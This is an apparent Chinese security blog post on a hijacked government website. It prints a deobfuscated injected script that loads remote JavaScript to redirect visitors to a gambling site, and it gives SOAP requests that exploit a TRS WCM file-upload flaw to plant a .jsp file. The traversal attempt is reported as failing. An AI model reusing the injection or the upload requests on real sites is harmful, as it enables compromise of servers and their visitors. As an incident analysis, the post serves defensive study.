






[TOC]

# TRS WCM 系统任意文件写入漏洞~~尝试复现~~
### 0x00
接到某政府部网页被挂马的信息，对被挂网页进行查看，在源码中发现

明显的js混淆，反混淆后得到(里面的x??就是ASCII,转换过来就好)
```javascript
window["document"]["write"]("<script type='text/javascript' src='http://www.138609.net/jsh.js'></script>");
```
跟进www.138609.net/jsh.js 得到js跳转(这里就不贴了)
最终跳转到<font color='red'>`https://www.yabc88.com/`</font>这个菠菜网站</br>
~~我们搞一下这个菠菜网站~~
### 0x01
挂马情况已经摸清了，现在尝试溯源，先找运维人员要来了服务器的流量</br>经过审计没有发现攻击流量(后来得知拿到的是前台流量，猜测黑客从后台进行修改网页)
我们去找网站的后端</br>
一般后端只需要找交互的地方，比如登录，可以找到后端控制的地方

成功找到后台,指纹识别为Tomcat Apache</br>
<br>
通过Google<font color="red">`wcm`</font>找到了<font color="red">`/wcm/console/include/running_background.html`</font>路径
得到了版本信息
<br>
找到一些有关利用漏洞，比如TRS WCM 系统任意文件写入漏洞
### 0x02 exploit
在<font color="red">`wcm/services/trswcm:SOAPService?wsdl`</font>和<font color="red">`wcm/services/trs:templateservicefacade?wsdl`</font>中裸露出来两个接口<br/>
通过访问<font color="red">`wcm/services`</font>得知，需要使用SOAPUI这个客户端才能进行交互

安装好SOAPUI之后<font color="red">`File`</font>-\><font color="red">`New SOAP Project`</font>，上面的输入框随意输入，下面的输入框我们要输入裸露的接口
<br>
将接口成功连接上之后发现<font color="red">`uploadFile`</font>和<font color="red">`sendFileBase64`</font>这两个接口或许可以利用</br>
这里要注意的是，原本利用的接口是<font color="red">`writeFile`</font>和<font color="red">`writeSpecFile`</font>，但是之前维护的时候已经把这两个删掉了
<br>
尝试上传文件，发出请求
```xml
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:impl="http://impl.service.trs.com">
   <soapenv:Header/>
   <soapenv:Body>
      <impl:uploadFile soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <in0 xsi:type="soapenc:base64Binary" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">MTEx</in0>
         <in1 xsi:type="soapenc:string" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">jsp</in1>
         <in2 xsi:type="xsd:boolean">0</in2>
      </impl:uploadFile>
   </soapenv:Body>
</soapenv:Envelope>
```
得到如下回应，发现成功上传，并得到了物理路径，并不在web路径
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <soapenv:Body>
      <ns1:uploadFileResponse soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:ns1="http://impl.service.trs.com">
         <uploadFileReturn xsi:type="soapenc:string" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/"><![CDATA[<REPORTS><IS-SUCCESS>true</IS-SUCCESS><TITLE><![CDATA[上传文件]]]]>><![CDATA[</TITLE><REPORT><IS-SUCCESS>true</IS-SUCCESS><TITLE><![CDATA[U020190710557616464509.jsp:D:\TRS\TRSZMHD\WCMData\upload\U0201907\U020190710\U020190710557616464509.jsp]]]]>><![CDATA[</TITLE><TYPE>3</TYPE></REPORT></REPORTS>]]></uploadFileReturn>
      </ns1:uploadFileResponse>
   </soapenv:Body>
</soapenv:Envelope>
```
尝试写入web目录中
```xml
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:impl="http://impl.service.trs.com">
   <soapenv:Header/>
   <soapenv:Body>
      <impl:uploadFile soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <in0 xsi:type="soapenc:base64Binary" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">MTEx</in0>
         <in1 xsi:type="soapenc:string" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">D:\\Tomcat\\webapps\\wcm\\demo\\index.jsp</in1>
         <in2 xsi:type="xsd:boolean">1</in2>
      </impl:uploadFile>
   </soapenv:Body>
</soapenv:Envelope>
```
这次是报错信息<font color="red">`不是常规后缀信息，不能获取相应的文件名`</font>，尝试修改，发现只有<font color="red">`[.???|???]`</font>可以使用，一旦使用<font color="red">`/`</font>和<font color="red">`\`</font>进行跳跃就不可以，原因在于Server会将<font color="red">`D:\TRS\TRSZMHD\WCMData\upload\U0201907\U020190710\U020190710557616464509.`</font>与我们填写的后缀进行拼接，一旦切换目录就会出现<font color="red">`D:\TRS\TRSZMHD\WCMData\upload\U0201907\U020190710\U020190710557616464509.\xxx`</font>这种路径，从而报错，不能达到任意目录写的操作</br>
复现失败
